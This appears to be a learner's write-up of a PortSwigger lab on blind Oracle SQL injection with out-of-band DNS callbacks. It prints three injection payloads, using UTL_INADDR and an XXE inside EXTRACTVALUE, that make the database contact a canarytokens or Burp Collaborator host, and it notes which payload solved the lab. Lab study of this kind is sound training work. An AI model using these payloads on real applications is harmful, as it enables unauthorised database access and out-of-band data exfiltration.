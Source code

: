 All Payloads used from portswiger [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

`' UNION SELECT UTL_INADDR.get_host_address('http://bgk826pq41q7yp922alzpblzb.canarytokens.com') --`

- this payload send with URL encode key charcters.

- no DNS look up happen -> DB not fully pached oracle

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://bgk826pq41q7yp922alzpblzb.canarytokens.com/"> %remote;]>'),'/l') FROM dual --`

- payload send with URL Encoded key charcters.

- dns look up doesn't happen -> no email send.

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xyz789abcdef.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--`

- payload send with URL encoded key charcter

- lab solved -> nslookup happend.

- as we know **burpcollaborator** generate a random subdomains i used a random value.

portswigger maybe set outbbound firewall to accepts only out-bond connection to `.burpcollaborator.net` and block others connections `*` which prevent payload that use subdomain from canary from working. *this mentioned in note section inside lab i didn't read it :)*.

DNS used because it allowed in all restriceted enviroments so i can send requests easly
